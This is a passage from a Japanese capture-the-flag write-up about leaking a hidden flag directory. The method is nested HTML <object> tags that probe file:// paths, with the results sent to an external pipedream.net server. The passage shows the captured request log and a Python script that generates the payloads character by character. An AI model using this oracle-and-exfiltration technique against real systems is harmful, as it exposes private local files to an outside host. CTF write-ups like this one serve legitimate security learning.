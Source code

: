 ```html
    </object>
</html>
```
すると以下のような大量のリクエストが届く。  
```
GET /?no=file:///var/www/htmls/ctf/g/
GET /?no=file:///var/www/htmls/ctf/e/
GET /?no=file:///var/www/htmls/ctf/x/
GET /?no=file:///var/www/htmls/ctf/j/
GET /?no=file:///var/www/htmls/ctf/v/
GET /?no=file:///var/www/htmls/ctf/c/
GET /?no=file:///var/www/htmls/ctf/5/
GET /?no=file:///var/www/htmls/ctf/b/
GET /?no=file:///var/www/htmls/ctf/w/
GET /?no=file:///var/www/htmls/ctf/3/
GET /?no=file:///var/www/htmls/ctf/1/
GET /?no=file:///var/www/htmls/ctf/i/
GET /?no=file:///var/www/htmls/ctf/7/
GET /?no=file:///var/www/htmls/ctf/d/
GET /?no=file:///var/www/htmls/ctf/2/
GET /?no=file:///var/www/htmls/ctf/r/
GET /?no=file:///var/www/htmls/ctf/z/
GET /?no=file:///var/www/htmls/ctf/s/
GET /?no=file:///var/www/htmls/ctf/n/
GET /?no=file:///var/www/htmls/ctf/y/
GET /?no=file:///var/www/htmls/ctf/k/
GET /?no=file:///var/www/htmls/ctf/4/
GET /?no=file:///var/www/htmls/ctf/a/
GET /?no=file:///var/www/htmls/ctf/9/
GET /?no=file:///var/www/htmls/ctf/p/
GET /?no=file:///var/www/htmls/ctf/0/
GET /?no=file:///var/www/htmls/ctf/l/
GET /?no=file:///var/www/htmls/ctf/f/
GET /?no=file:///var/www/htmls/ctf/h/
GET /?no=file:///var/www/htmls/ctf/6/
GET /?no=file:///var/www/htmls/ctf/u/
GET /?no=file:///var/www/htmls/ctf/8/
GET /?no=file:///var/www/htmls/ctf/o/
GET /?no=file:///var/www/htmls/ctf/t/
GET /?no=file:///var/www/htmls/ctf/m/
```
ただし、`GET /?no=file:///var/www/htmls/ctf/q/`のみ存在していない。  
これは`file:///var/www/htmls/ctf/q/`が存在していることを意味する。  
こうして一文字ずつ特定していけばよい。  
ソートして上から順に眺めると、アルファベットの欠落がわかりやすい。  
以下のleak1.pyを用いてペイロードの送信を自動化する。  
受け取ったリクエストに含まれていない一文字を順次追加していくことで、さらに深いディレクトリのリークが可能となる。  
```python
import string
import requests

LEAK_URL = "https://end6km9xnaufp.x.pipedream.net"  # Your server URL here

flag_path = ""  # Add leaked flag path here (e.g. "1/2/3/a/b/c/")
# flag_path = "q/c/j/6/p/f/v/b/e/k/8/u/8/4/d/g/f/f/1/l/"

_object = ""
for c in string.ascii_lowercase + string.digits:
    _object += f"""
    <object data="file:///var/www/htmls/ctf/{flag_path}{c}/">
        <object data="{LEAK_URL}/?no=file:///var/www/htmls/ctf/{flag_path}{c}/"></object>
    </object>
    """

```